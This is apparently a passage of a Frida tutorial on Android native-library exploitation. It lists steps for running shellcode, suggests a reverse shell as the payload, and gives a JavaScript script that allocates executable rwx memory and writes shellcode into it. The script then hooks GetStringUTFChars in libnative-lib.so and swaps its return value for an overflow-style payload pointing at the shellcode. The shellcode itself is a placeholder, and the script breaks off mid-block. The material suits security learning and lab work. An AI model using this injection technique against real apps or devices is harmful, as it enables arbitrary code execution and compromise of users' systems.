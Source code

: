 ![frida-5](https://github.com/user-attachments/assets/5580e00b-1773-4ab2-afb2-542ccbc67ff4)

Steps to Execute Shellcode:

- **Write Your Shellcode:**
  - First, craft your shellcode. This could be something like a reverse shell.

- **Allocate Memory:**
  - Allocate memory for your shellcode, ensuring it's large enough to hold the shellcode and any additional data.

- **Change Memory Permissions:**
  - Modify the permissions of the allocated memory region to make it executable.

- **Write Shellcode into Memory:**
  - Write the shellcode into the allocated memory.

- **Verify with hexdump():**
  - Use `hexdump()` to inspect the memory where the shellcode is located and ensure everything is as expected.

```js
var libnative_lib_so = 'libnative-lib.so';

function start_timer_for_intercept() {
  setTimeout(function() {
    console.log("[+] " + libnative_lib_so + " Base Address -> " + Module.findBaseAddress(libnative_lib_so));

    var offset_of_GetStringUTFChars = 0x51110; // Offset for GetStringUTFChars
    var dynamic_address_of_GetStringUTFChars = Module.findBaseAddress(libnative_lib_so).add(offset_of_GetStringUTFChars);

    // Allocate memory for the payload
    var memoryForPayload = Memory.alloc(100);
    var payload = [0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41];

    // Write your shellcode here
    var shellcode = [YOUR_SHELLCODE_GOES_HERE];
    var memoryForShellcode = Memory.alloc(shellcode.length + 20);

    // Change memory permissions to make it executable
    Memory.protect(ptr(memoryForShellcode), shellcode.length + 20, 'rwx');

    // Write the shellcode into the allocated memory
    Memory.writeByteArray(memoryForShellcode, shellcode);

    // Extract the shellcode address and adjust for endianness
    var shellcodeAddress = memoryForShellcode.toString().match(/[\s\S]{1,2}/g) || [];
    payload.push(parseInt(shellcodeAddress[4], 16), parseInt(shellcodeAddress[3], 16), parseInt(shellcodeAddress[2], 16), parseInt(shellcodeAddress[1], 16));
    Memory.writeByteArray(memoryForPayload, payload);

    // Log the memory contents for verification
    console.log(hexdump(memoryForShellcode, { length: 128 }));

    // Hook GetStringUTFChars and replace the return value with our crafted payload
    Interceptor.attach(dynamic_address_of_GetStringUTFChars, {
      onLeave: function(retval) {
        var uInput = retval.readCString();
        if (uInput == "exploit") {
          retval.replace(memoryForPayload); // Replace retval with our crafted payload
        }
      }
    });
```